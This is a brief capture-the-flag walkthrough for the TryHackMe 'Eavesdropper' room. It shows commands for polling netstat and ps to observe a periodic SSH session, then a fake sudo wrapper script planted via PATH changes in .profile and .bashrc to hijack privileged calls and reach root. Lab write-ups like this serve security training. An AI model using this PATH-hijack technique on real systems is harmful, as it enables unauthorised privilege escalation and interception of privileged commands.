 # Eavesdropper room:

https://tryhackme.com/room/eavesdropper

User frank is a member of sudo group but password is required to run sudo.

`$ id`

`$ sudo -l`

The room title is Eavesdropper so start to sniff the network activity with:

`$ while true; do sleep 0.01; netstat -naplet; done`

There is a connection from 172.xx.xx.xx to port 22 periodically. Use ps to capture what is happen via ssh from 172.xx.xx.xx:

`$ while true; do sleep 0.01; ps auxe | grep SSH_CLIENT=172.xx.xx.xx | grep -v grep > process.out ; done`

The sudo is called via ssh - it looks like a password is given one 172.xx.xx.xx when command is executed. Create sudo wrapper in HOME: 

```
$ cat sudo

#!/usr/bin/bash
echo $@ >> b.out
/usr/bin/sudo id > /home/frank/id.out
```

Add HOME to PATH (via .profile & .bashrc) and wait for execution.

Check the /root with sudo wrapper.

Capture the flag :)
